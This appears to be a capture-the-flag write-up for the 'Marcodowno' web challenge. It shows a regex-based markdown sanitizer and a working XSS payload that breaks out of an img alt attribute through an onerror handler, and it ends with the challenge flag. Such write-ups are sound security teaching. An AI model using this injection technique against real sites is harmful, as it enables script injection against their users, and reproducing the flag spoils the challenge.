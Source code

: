 # Marcodowno

- [English Version](https://balsn.tw/ctf_writeup/20190406-midnightsunctf/#marcodowno)

- 這題會把輸入各種過濾:

```javascript
function markdown(text){
  text = text.replace(/[<]/g, '')
  .replace(/----/g,'<hr>')
  .replace(/> ?([^\n]+)/g, '<blockquote>$1</blockquote>')
  .replace(/\*\*([^*]+)\*\*/g, '<b>$1</b>')
  .replace(/__([^_]+)__/g, '<b>$1</b>')
  .replace(/\*([^\s][^*]+)\*/g, '<i>$1</i>')
  .replace(/\* ([^*]+)/g, '<li>$1</li>')
  .replace(/##### ([^#\n]+)/g, '<h5>$1</h5>')
  .replace(/#### ([^#\n]+)/g, '<h4>$1</h4>')
  .replace(/### ([^#\n]+)/g, '<h3>$1</h3>')
  .replace(/## ([^#\n]+)/g, '<h2>$1</h2>')
  .replace(/# ([^#\n]+)/g, '<h1>$1</h1>')
  .replace(/(?<!\()(https?:\/\/[a-zA-Z0-9./?#-]+)/g, '<a href="$1">$1</a>')
  .replace(/!\[([^\]]+)\]\((https?:\/\/[a-zA-Z0-9./?#]+)\)/g, '<img src="$2" alt="$1"/>')
  .replace(/(?<!!)\[([^\]]+)\]\((https?:\/\/[a-zA-Z0-9./?#-]+)\)/g, '<a href="$2">$1</a>')
  .replace(/`([^`]+)`/g, '<code>$1</code>')
  .replace(/```([^`]+)```/g, '<code>$1</code>')
  .replace(/\n/g, "<br>");
  return text;
}

window.onload=function(){
  $("#markdown").text(input);
  $("#rendered").html(markdown(input));
}
```

- 直接閉合`<img>`的`alt`屬性就行
- Payload: `![ " onerror=alert(1) ](https://kaibrotw)`
- `midnight{wh0_n33ds_libs_wh3n_U_g0t_reg3x?}`
